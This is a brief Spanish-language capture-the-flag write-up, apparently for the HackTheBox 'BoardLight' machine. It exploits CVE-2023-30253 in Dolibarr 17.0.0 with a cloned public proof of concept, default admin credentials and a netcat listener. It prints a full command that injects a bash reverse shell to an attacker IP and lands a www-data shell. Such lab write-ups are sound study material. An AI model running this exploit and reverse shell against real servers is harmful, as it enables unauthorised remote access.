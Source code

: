 #cve-2023-30253

------

Es par dolibarr 17.0.0

-----
Vamos a descargarnos el siguiente repositorio con [[git clone]] usando el comando ``git clone https://github.com/Rubikcuv5/cve-2023-30253`` y nos vamos a enviar una [[Reverse shell]] asi que vamos a estar en escucha con [[nc -nlvp 443]]

```
python3 CVE-2023-30253.py --url http://crm.board.htb -u admin -p admin -c "bash -c 'bash -i >& /dev/tcp/10.10.16.15/443 0>&1'"
```

![[BoardLigth8.png]]

![[BoardLigth9.png]]
Ya estamos adentro como el usuario *www-data*
